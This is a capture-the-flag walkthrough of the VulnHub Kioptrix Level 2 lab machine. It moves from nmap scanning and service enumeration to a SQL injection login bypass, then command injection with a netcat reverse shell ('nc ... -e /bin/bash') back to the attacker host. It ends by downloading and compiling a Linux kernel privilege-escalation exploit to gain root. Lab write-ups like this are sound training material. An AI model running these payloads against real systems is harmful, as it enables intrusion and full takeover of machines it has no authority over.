









Description
VulnHub: Kioptrix: Level 2
The object of the game is to acquire root access via any means possible
Reconnaissance
$ sudo netdiscover -i eth0
$ sudo nmap -p- -A -T5 -v 192.168.127.130
# Output
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey:
| 1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
| 1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_ 1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_sshv1: Server supports SSHv1
80/tcp open http Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp open rpcbind 2 (RPC #100000)
| rpcinfo:
| program version port/proto service
| 100000 2 111/tcp rpcbind
| 100000 2 111/udp rpcbind
| 100024 1 793/udp status
|_ 100024 1 796/tcp status
443/tcp open ssl/http Apache httpd 2.0.52 ((CentOS))
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Issuer: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: md5WithRSAEncryption
| Not valid before: 2009-10-08T00:10:47
| Not valid after: 2010-10-08T00:10:47
| MD5: 01de 29f9 fbfb 2eb2 beaf e624 3157 090f
| SHA-1: 560c 9196 6506 fb0f fb81 66b1 ded3 ac11 2ed4 808a
|_SHA-256: 5c68 d00c 4866 d81f 6651 99d5 c2da 7e8a 90b6 a3fb 57ca 42a3 3215 6197 26d0 2cd7
| sslv2:
| SSLv2 supported
| ciphers:
| SSL2_RC4_128_EXPORT40_WITH_MD5
| SSL2_RC2_128_CBC_WITH_MD5
| SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
| SSL2_DES_64_CBC_WITH_MD5
| SSL2_RC4_64_WITH_MD5
| SSL2_DES_192_EDE3_CBC_WITH_MD5
|_ SSL2_RC4_128_WITH_MD5
|_ssl-date: 2026-08-23T05:56:18+00:00; -3h09m39s from scanner time.
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.0.52 (CentOS)
631/tcp open ipp CUPS 1.1
|_http-server-header: CUPS/1.1
|_http-title: 403 Forbidden
| http-methods:
| Supported Methods: GET HEAD OPTIONS POST PUT
|_ Potentially risky methods: PUT
796/tcp open status 1 (RPC #100024)
3306/tcp open mysql MySQL (unauthorized)
MAC Address: 00:0C:29:33:26:4A (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.30
Uptime guess: 49.709 days (since Sat Jul 4 12:04:26 2026)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=199 (Good luck!)
IP ID Sequence Generation: All zeros
Host script results:
|_clock-skew: -3h09m39s
TRACEROUTE
HOP RTT ADDRESS
1 1.16 ms 192.168.127.130
# Use -sU to check UDP ports
$ sudo nmap -p- -sU -sV 192.168.127.130
# Output
PORT STATE SERVICE VERSION
22/udp closed ssh
631/udp open|filtered ipp
MAC Address: 00:0C:29:33:26:4A (VMware)
Enumeration
IPP/CUPS Port 631
The CUPS server allows users to manage print jobs through the TCP/631 port and automatic printer discovery through UDP/631. So when we see TCP/631 open it is possible for the UDP/631 to be also open.
One attack vector could be the UDP/631 port. We may be able to send a malicious printer request Evilsocket.
But for now let’s try to enumerate more information from the service.
Does nmap has any script which is more specialized on cups or ipp.
# Use --script-help flag filter the scripts based on a string
$ sudo nmap --script-help "*cups*"
$ sudo nmap --script-help "*ipp*"

$ sudo nmap -sV -T4 -v --script=cups-info,cups-queue-info 192.168.127.130

No information
MySQL Port 3306
Port 3306 which is probably MySQL or MariaDB
# Try to connect with basic username root
$ mysql --skip-ssl -h 192.168.127.130 -u root
# The IP is not authorized to access MySQL server
$ sudo nmap -p3306 -sV -v --script="*mysql*" 192.168.127.130
# Not authorized
HTTP Port 80
Check front-end source file through Ctrl+U.

# Check different HTTP methods that are allowed in case we can learn something
$ curl http://192.168.127.130:80/ -I
$ curl http://192.168.127.130:80/ -X OPTIONS
# Start burpsuite
$ burpsuite &
# Bruteforce web directories
$ ffuf -u http://192.168.127.130:80/FUZZ \
-w /usr/share/wordlists/dirb/common.txt 2>/dev/null
$ ffuf -u http://192.168.127.130:80/FUZZ \
-w /usr/share/wordlists/dirb/big.txt 2>/dev/null

Check XSS and SQLi.
#SQLi
' or 1=1 -- -


It worked. The check was probably something like this:
# Normal
SELECT * FROM users
WHERE username='admin' AND password='pass';
# Bypass
SELECT * FROM users
WHERE username='' or 1=1 -- -AND password='pass'
It probably runs a ping simple ping command. We may be able to achieve bash command injection.


We have access to the system through Command Injection leading to RCE. Now we use nc to get a remote shell.
# From Kali listen to 1234
$ nc -lnvp 1234
# use nc (netcat) for reverse shell
127.0.0.1&&nc 192.168.127.128 1234 -e "/bin/bash"
# No output... maybe nc is not installed
127.0.0.1&&find / -name "nc" 2>/dev/null -ls
# /usr/local/bin/nc
127.0.0.1&&/usr/local/bin/nc 192.168.127.128 1234 -e "/bin/bash"
# Connected
Privilege Escalation
Try some basic Linux commands to get information about the system and the user.
$ id
$ whoami
$ groups
$ pwd
$ uname -a
# Output
# Linux Kernel 2.6.9-55.EL

From a quick Google search, this Linux Kernel version is exploitable, Exploit DB: Linux Kernel 2.6 < 2.6.19l
# From Kali
$ wget https://www.exploit-db.com/download/9542
$ python3 -m http.server 7777
# From Kioptrix
$ wget http://192.168.127.128/exploit.c
$ gcc exploit.c -o exploit
$ chmod +x ./exploit
$ ./exploit
# We are root!